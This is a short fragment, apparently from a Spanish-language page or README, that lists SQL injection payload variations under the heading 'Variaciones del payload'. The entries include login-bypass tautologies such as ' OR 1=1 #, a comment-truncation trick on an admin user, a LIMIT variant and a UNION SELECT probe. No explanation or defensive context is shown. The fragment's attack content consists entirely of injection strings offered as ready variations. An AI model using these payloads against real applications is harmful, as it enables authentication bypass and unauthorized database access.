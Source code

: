 🔁 Variaciones del payload
# ' OR 'a'='a' --

' OR 1=1 #

admin' --

' OR 1=1 LIMIT 1 --

' UNION SELECT 1,2,3 --
